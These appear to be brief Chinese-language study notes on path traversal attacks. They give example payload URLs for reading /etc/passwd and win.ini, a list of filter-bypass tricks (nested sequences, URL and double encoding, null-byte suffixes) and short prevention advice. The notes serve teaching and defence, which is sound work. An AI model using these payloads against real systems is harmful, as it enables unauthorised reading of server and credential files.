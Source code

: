 ## Path traversal (../)
- 能夠讀取運行應用程式的伺服器上的任意檔案
- 能夠寫入伺服器上的任意文件
- 修改應用程式資料或行為

## Example : 
- <img src="/loadImage?filename=218.png"> --> call /var/www/images/218.png
- https://insecure-website.com/loadImage?filename=../../../etc/passwd
- ../和都是..\有效的目錄遍歷序列
-  Windows 伺服器 : https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini

## Bypass : 
- 絕對路徑 : filename=/etc/passwd
- Ｎested traversal : "....//" or "....\/"
    - (....//....//....//etc/passwd)
- URL 編碼 :%2e%2e%2f, %252e%252e%252f , ..%c0%af or ..%ef%bc%8f
    - Burp Intruder: Fuzzing - path traversal
- 基底資料夾 : filename=/var/www/images/../../../etc/passwd
- 副檔名結尾 : filename=../../../etc/passwd%00.png

## prevent a path traversal attack
- 白名單 : 處理使用者輸入之前，請先驗證其有效性
- 僅包含字母數字字元
- 使用平台檔案系統 API 來規範化該路徑
